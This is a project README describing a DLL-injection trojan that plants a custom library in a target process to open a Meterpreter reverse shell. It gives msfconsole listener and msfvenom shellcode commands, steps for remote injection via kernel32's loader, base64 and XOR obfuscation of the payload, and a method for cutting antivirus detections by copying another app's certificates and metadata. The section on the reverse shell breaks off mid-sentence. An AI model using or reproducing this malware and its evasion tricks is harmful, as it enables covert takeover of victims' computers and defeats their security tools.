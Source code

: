 # Remote Dll injector Trojan
Trojan using dll injection of a custom library that spawns a shell on a target machine, undetected by Windows defender and Bitdefener

# 💻 Code

This malware injects a malicious library into a target process or directly creates a process and uploads the library into it, the dll contains a simple encoded base64 data that spawns a reverse shell.

### 0) Listener and payload

- First i used the classic multi handler exploit to run the payload: 
``` msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set lhost XXX; set lport XXX; exploit" ```

- The payload is a simple base64 shellcode, it's reccomended to use shigata_ga_nai alternatives since its easy to detect:
``` msfvenom -p windows/meterpreter/reverse_tcp LHOST=XXX LPORT=XXXX  -e x86/shikata_ga_nai -f c  ```. 

- Once we have the shellcode we load it into the ``` encrypter.c```  file, where the binary data is converted into Base64, try to use a custom base64_chars set instead of the standard Base64 alphabet to obfuscate more, secondly XOR encryption is applied using a single-byte key, and finally we convert it into its hexadecimal string representation.

### 1) DLL
The malicious library contains 4 different call cases, process attach/detach, and thread create/delete, the best one is in my opinion the first one. When the library is attached to the process, it runs arbitrary code, in the sample there is a simple windows message box, in the actual dll the code decodes base64 encoded data and uploads the shellcode containing the reverse shell to memory. You can create a dll on Visual Studio by making a new project and selecting the dll template, also rememeber to build both the dll and the injector in release mode and in the same architecture.

### 2) Local Injection

The local injection takes the dynamic library which is already located into the disk (basically useless, just a sample), creates a process and injects the library into it. Here is a detailed explanation: 

- First we locate the dll and we load it into the same process that runs it; 
- Then we create a thread and execute whatever we want, for example calling a function from inside the dll or running multiple tasks;

Because our dll is executed by the main function of our process, the thread isn't mandatory, you can use it for example to call a function from the dll if it needs to run in the background or loop continuously. 

### 2.1) Remote Injection

The remote injection dumps the dynamic library into disk (might get detected tho as anything that gets written into disk is automathically scanned by the antivirus), looks for a specific process and injects the library into it. Here is a detailed explanation: 

- First of all we put the malicious dll in the same folder as the injector, we create a resource file and its header and we set the dll as a resource of the injector;
- Secondly on the injector we locate the resource file, calculate its size, upload it to memory, and lock it for access so it can be used without being moved;
- Thirdly we extract the dll from the executable and write it to disk;
- We find a process by PID, allocate memory the size of the dll path inside of it and write the path into the process;
- Then we get the base address of kernel32 dll to get the pointer of the function which will load the malicious library;
- Finally we create a thread that executes the function that loads the malicious dll;

### 3) Reverse shell

The actual dll contains the encrypted shellcode with the reverse shell, here's how it works:
- First the ...


# 🛡 Obfuscation and AV Detection 

<img align="right" src="media/av1.png" width="340" />

Both codes are undetected by Windows defender. The remote injection exe on virustotal got 10 detections, but using a simple certificate and metadata manager like Process Hacker (free an open source) i uploaded the data of a common app (in my case it was github desktop setup) and the AVs detections went from 10 to 1 in an instant, and for the first time Bitdefender didn't flag it as suspicious 😀!!! The file went from a few kilobytes to like 10mb tho so i think i'll have to work on that, maybe by embedding only the essential metadata and certificates.


<img align="left" src="media/av4.png" width="540" />
